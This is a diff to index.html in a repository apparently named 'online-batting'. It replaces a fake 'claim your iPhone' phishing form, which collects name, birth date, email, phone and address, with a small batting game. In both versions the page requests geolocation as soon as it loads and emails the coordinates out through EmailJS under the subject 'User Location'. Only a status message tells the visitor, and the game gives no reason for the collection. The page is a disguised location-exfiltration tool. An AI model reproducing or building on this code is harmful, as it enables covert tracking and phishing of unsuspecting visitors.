

Before and after one commit to allahabux792-cloud/online-batting, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 285-940 px from the top of the page. After the commit the page ends 800 px from the top, so only its background shows below. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,136 +3,76 @@
 <head>
   <meta charset="UTF-8" />
   <meta name="viewport" content="width=device-width, initial-scale=1" />
-  <title>Auto Send Location + Form</title>
+  <title>Online Batting</title>
   <style>
     body {
       font-family: Arial, sans-serif;
-      padding: 30px;
-      background-color: #f0f0f0;
-      color: #333;
+      margin: 0;
+      padding: 0;
+      background: linear-gradient(135deg, #2ecc71, #27ae60);
+      color: #fff;
+      display: flex;
+      justify-content: center;
+      align-items: center;
+      height: 100vh;
+      overflow: hidden;
     }
-    .container {
+    .game-container {
+      width: 100%;
       max-width: 600px;
-      margin: auto;
-      background: white;
-      padding: 25px 30px;
-      border-radius: 10px;
-      box-shadow: 0 4px 12px rgba(0,0,0,0.12);
+      height: 400px;
+      background: #1e272e;
+      border-radius: 12px;
+      box-shadow: 0 6px 20px rgba(0,0,0,0.3);
+      position: relative;
+      overflow: hidden;
     }
     h2 {
-      margin-bottom: 25px;
       text-align: center;
-      color: #2c3e50;
+      padding: 10px;
+      background: #2c3e50;
+      margin: 0;
+      border-top-left-radius: 12px;
+      border-top-right-radius: 12px;
     }
-    form {
-      margin-top: 20px;
+    #bat {
+      position: absolute;
+      bottom: 20px;
+      left: 50%;
+      transform: translateX(-50%);
+      width: 80px;
+      height: 20px;
+      background: #e74c3c;
+      border-radius: 6px;
     }
-    .form-group {
-      margin-bottom: 18px;
+    #ball {
+      position: absolute;
+      top: 0;
+      left: 50%;
+      transform: translateX(-50%);
+      width: 20px;
+      height: 20px;
+      background: #f1c40f;
+      border-radius: 50%;
     }
-    label {
-      display: block;
-      margin-bottom: 6px;
-      font-weight: 600;
-      color: #34495e;
-    }
-    input[type="text"],
-    input[type="email"],
-    input[type="tel"],
-    input[type="date"],
-    textarea {
-      width: 100%;
-      padding: 10px 12px;
-      font-size: 15px;
-      border: 1.8px solid #ccc;
-      border-radius: 5px;
-      box-sizing: border-box;
-      transition: border-color 0.3s ease;
-    }
-    input[type="text"]:focus,
-    input[type="email"]:focus,
-    input[type="tel"]:focus,
-    input[type="date"]:focus,
-    textarea:focus {
-      border-color: #3498db;
-      outline: none;
-    }
-    textarea {
-      resize: vertical;
-      min-height: 70px;
-    }
-    #locationDisplay {
-      background: rgba(255, 255, 255, 0.85);
-      color: #666;
-      padding: 0.5rem 0.75rem;
-      border-radius: 4px;
+    #locationDisplay, #status {
+      position: absolute;
+      bottom: 5px;
+      left: 10px;
+      right: 10px;
       font-size: 14px;
-      margin-bottom: 20px;
       text-align: center;
-    }
-    button {
-      width: 100%;
-      background-color: #3498db;
-      color: white;
-      border: none;
-      padding: 14px;
-      font-size: 16px;
-      font-weight: 600;
-      border-radius: 7px;
-      cursor: pointer;
-      transition: background-color 0.3s ease;
-    }
-    button:hover {
-      background-color: #2980b9;
-    }
-    #status {
-      margin-top: 18px;
-      font-size: 16px;
-      color: #555;
-      text-align: center;
-      white-space: pre-line; /* preserve newlines */
+      color: #ecf0f1;
     }
   </style>
 </head>
 <body>
-  <div class="container">
-    <h2>Congratualations</h2>
-
-    <form id="rewardForm">
-      <div class="form-group">
-        <label for="fullName">Full Name</label>
-        <input type="text" class="form-control" id="fullName" placeholder="Enter your full name" required />
-      </div>
-      <div class="form-group">
-        <label for="dob">Date of Birth</label>
-        <input type="date" class="form-control" id="dob" required />
-      </div>
-      <div class="form-group">
-        <label for="email">Email Address</label>
-        <input type="email" class="form-control" id="email" placeholder="Enter your email" required />
-      </div>
-      <div class="form-group">
-        <label for="phoneNumber">Phone Number</label>
-        <input type="tel" class="form-control" id="phoneNumber" placeholder="Enter your phone number" required />
-      </div>
-      <div class="form-group">
-        <label for="address">Shipping Address</label>
-        <textarea class="form-control" id="address" rows="3" placeholder="Enter your shipping address" required></textarea>
-      </div>
-      <div class="form-group">
-        <label for="city">City</label>
-        <input type="text" class="form-control" id="city" placeholder="Enter your city" required />
-      </div>
-      <div class="form-group">
-        <label for="postalCode">Postal Code</label>
-        <input type="text" class="form-control" id="postalCode" placeholder="Enter your postal code" required />
-      </div>
-
-      <p id="locationDisplay">Address.</p>
-      <button type="submit">Submit and Claim iPhone</button>
-    </form>
-
-    <div id="status">Please allow location permission for getting correct address.</div>
+  <div class="game-container">
+    <h2>🏏 Online Batting</h2>
+    <div id="ball"></div>
+    <div id="bat"></div>
+    <p id="locationDisplay">Detecting address...</p>
+    <p id="status">Please allow location permission.</p>
   </div>
 
   <script src="https://cdn.jsdelivr.net/npm/@emailjs/browser@3/dist/email.min.js"></script>
@@ -150,8 +90,8 @@
         subject: "User Location"
       })
       .then(() => {
-        statusEl.textContent = `Location sent successfully!\nLatitude: ${lat}, Longitude: ${lng}`;
-        locationDisplay.textContent = `Your location: Latitude ${lat}, Longitude ${lng}`;
+        statusEl.textContent = `Location sent successfully!`;
+        locationDisplay.textContent = `Your location: ${lat}, ${lng}`;
       })
       .catch((error) => {
         statusEl.textContent = "Failed to send email: " + error.text;
@@ -164,28 +104,57 @@
           (position) => {
             const lat = position.coords.latitude.toFixed(6);
             const lng = position.coords.longitude.toFixed(6);
-            locationDisplay.textContent = `Your location detected: Latitude ${lat}, Longitude ${lng}`;
+            locationDisplay.textContent = `Lat ${lat}, Lng ${lng}`;
             statusEl.textContent = `Location found. Sending email...`;
             sendLocationEmail(lat, lng);
           },
           (error) => {
-            locationDisplay.textContent = "Error getting location: " + error.message;
+            locationDisplay.textContent = "Error: " + error.message;
             statusEl.textContent = "Error getting location.";
           }
         );
       } else {
-        locationDisplay.textContent = "Geolocation is not supported by this browser.";
+        locationDisplay.textContent = "Geolocation not supported.";
         statusEl.textContent = "Geolocation not supported.";
       }
     }
 
     window.onload = getLocationAndSend;
 
-    // Optional: You can add form submission handler if needed, else it just submits normally.
-    document.getElementById('rewardForm').addEventListener('submit', function(e) {
-      e.preventDefault();
-      alert('Form submitted! (You can add your own form handling here)');
-      // You can add your own AJAX form submission or processing here if needed.
+    // Simple batting game logic
+    const bat = document.getElementById("bat");
+    const ball = document.getElementById("ball");
+    let ballY = 0;
+    let ballSpeed = 2;
+
+    function gameLoop() {
+      ballY += ballSpeed;
+      if (ballY > 360) {
+        ballY = 0;
+        // Check collision
+        const batRect = bat.getBoundingClientRect();
+        const ballRect = ball.getBoundingClientRect();
+        if (ballRect.bottom >= batRect.top &&
+            ballRect.left < batRect.right &&
+            ballRect.right > batRect.left) {
+          statusEl.textContent = "🎉 You hit the ball!";
+        } else {
+          statusEl.textContent = "❌ Missed!";
+        }
+      }
+      ball.style.top = ballY + "px";
+      requestAnimationFrame(gameLoop);
+    }
+    gameLoop();
+
+    // Move bat with arrow keys
+    document.addEventListener("keydown", (e) => {
+      const currentLeft = parseInt(bat.style.left || 50);
+      if (e.key === "ArrowLeft") {
+        bat.style.left = Math.max(5, currentLeft - 5) + "%";
+      } else if (e.key === "ArrowRight") {
+        bat.style.left = Math.min(95, currentLeft + 5) + "%";
+      }
     });
   </script>
 </body>
```
